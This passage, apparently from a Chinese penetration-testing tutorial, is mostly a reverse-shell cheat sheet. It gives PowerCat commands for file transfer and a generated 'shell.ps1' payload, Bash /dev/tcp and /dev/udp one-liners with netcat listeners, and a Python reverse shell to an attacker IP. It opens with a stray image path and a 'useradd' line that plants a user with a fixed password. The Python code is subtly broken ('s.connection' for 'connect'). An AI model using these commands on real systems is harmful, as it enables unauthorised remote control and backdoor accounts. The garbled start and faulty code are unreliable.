    ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```
> `powercat -l -p 9999 -of test.txt -v`
>
> 攻击机连接靶机 `9999` 端口并发送 `D:\test.txt` 文件
> `powercat -c 192.168.xxx.xxx -p 9999 -i D:\test.txt -v`

2. 使用 PowerCat 生成 `payload`

> 攻击机生成名为 `shell.ps1` 的 `payload`（生成后需要将 `payload` 脚本上传至靶机）
> `powercat -l -p 8888 -e cmd -v -g >> shell.ps1`
>
> 攻击机连接
> `powercat -c 192.168.xxx.xxx -p 8888 -v`
>
> 靶机上运行脚本
> `.\shell.ps1`

#### Bash 反弹 Shell

##### Bash 介绍

`shell` 也称之为**终端**或者**壳**，是用户与系统内核之间交互的翻译官，而 `bash` 则是 `linux` 中默认使用的 `shell`。

##### Bash 反弹 Shell 命令

> `bash -i >&/dev/tcp/攻击机IP/攻击机端口 0>&1` （对应的监听时，要使用 `tcp`，如： `nc -lvvp 999`）
> `bash -i >&/dev/tcp/攻击机IP/攻击机端口 0>&2`
> `bash -i >&/dev/udp/攻击机IP/攻击机端口 0>&1` （对应的监听时，要使用 `udp`，如： `nc -lup 999`）
> `bash -i >&/dev/udp/攻击机IP/攻击机端口 0>&2`

- `bash -i`： 打开交互式 `shell`
- `&`： 符号用于区分文件和文件描述符
- `>&`： 符号后面跟文件时，表示将标准输出和标准错误输出重定向至文件
- `>&`： 符号后面跟数字时，表示后面的数字是文件描述符。 如果不加 `&` 符号，后面的数字会被当做文件。
- `0`： `Linux` 下的文件描述符。代表标准输入重定向。
- `1`： `Linux` 下的文件描述符。代表标准输出重定向。
- `2`： `Linux` 下的文件描述符。代表错误输出重定向。
- `/dev/tcp`： 是 `Linux` 下的特殊设备，可用于建立 `Socket` 连接，读写这两个文件相当于在 `Socket` 连接中传输数据。
- `/dev/udp`： 同上

- `>&/dev/tcp/IP/PORT`： 表示将标准输出和标准错误重定向到 `/dev/tcp/IP/PORT` 文件下，也就是重定向到攻击机指定端口。此时攻击机就可以看到靶机的命令执行结果。
- `0>&1` 或 `0>&2`： 将标准输入重定向到标准输出。 结合上面标准输出重定向到了攻击机，最终的结果就是标准输入重定向到了攻击机。两条命令组合从而可以通过攻击机输入命令，并且可以看到执行结果输出

#### Python 反弹 Shell

```python
import socket, subprocess, os;

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connection(('192.168.xx.xx', 8080))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(['/bin/bash', '-i'])
```
